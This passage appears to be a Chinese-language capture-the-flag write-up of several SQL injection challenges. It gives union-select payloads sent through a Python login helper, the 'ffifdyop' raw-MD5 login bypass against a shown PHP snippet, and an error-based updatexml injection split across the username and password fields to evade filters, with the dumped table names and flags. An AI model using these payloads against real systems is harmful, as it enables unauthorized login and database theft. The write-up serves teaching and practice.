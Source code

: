 ```python
login('0 2nion select * from ((select 1)a join (select group_concat(table_name) from information_schema.tables where table_schema regexp database())b join (select 3)c);'+ chr(0), 7, '2', 'u')
# users, you_want
login('0 2nion select * from ((select 1)a join (select group_concat(column_name) from information_schema.columns where table_name regexp "you_want")b join (select 3)c);'+ chr(0), 7, '2', 'u')
# value
login('0 2nion select * from ((select 1)a join (select value from you_want)b join (select 3)c);'+ chr(0), 6, '2', 'u')
```


忘了提及的一点是，过滤了等号，可以通过 `regexp` 绕过。

这题放在 Web 第一题实在是太劝退了。

## 后台登录
F12 找到：
```php
$password=$_POST['password'];
$sql = "SELECT * FROM admin WHERE username ='admin'and password ='".md5($password,true)."'";
$result=mysqli_query($link,$sql);
	if(mysqli_num_rows($result)>0){
		echo 'flag is :'.$flag;
	}
	else{
		echo '密码错误!';
  }
```
这里比较有意思的是在 SQL 注入中引入了哈希函数。其中 `md5($password, true)` 返回一个字符串。

因此我们需要构造一个字符串，使得其 md5 值由 16 进制转为字符串后，包含 `'or'num`（`num` 为任意数字），这样就可以组成 SQL 语句：
```sql
and password = ''or'num'
```
例如，对于字符串 `ffifdyop`，其 md5 值为 `276f722736c95d99e921722cf9ed621c`，对应字符串开头为 `'or'6`，因此 SQL 语句执行结果为 `true`，成功登录。

## 加了料的报错注入
这题比较有趣的是，`username` 中过滤了 `()`，而 `password` 中过滤了很多报错注入用的函数名。因此可以考虑将两者拼接，在 `username` 中使用函数但把 `()` 移动到 `password` 里，最后注释掉中间的 SQL 语句。此外，`password` 还过滤了 `=`，用双重否定绕过即可。
```
username='and updatexml/*&password=*/(1,concat(0x7e,(select database()),0x7e),1) or '1
# XPATH syntax error: '~error_based_hpf~'

username='and updatexml/*&password=*/(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where !(table_schema<>'error_based_hpf')),0x7e),1) or '1
# XPATH syntax error: '~ffll44jj,users~'

username='and updatexml/*&password=*/(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where !(table_name<>'ffll44jj')),0x7e),1) or '1
# XPATH syntax error: '~value~'

username='and updatexml/*&password=*/(1,concat(0x7e,(select value from ffll44jj),0x7e),1) or '1
# XPATH syntax error: '~flag{err0r_b4sed_sqli_+_hpf}~'
```
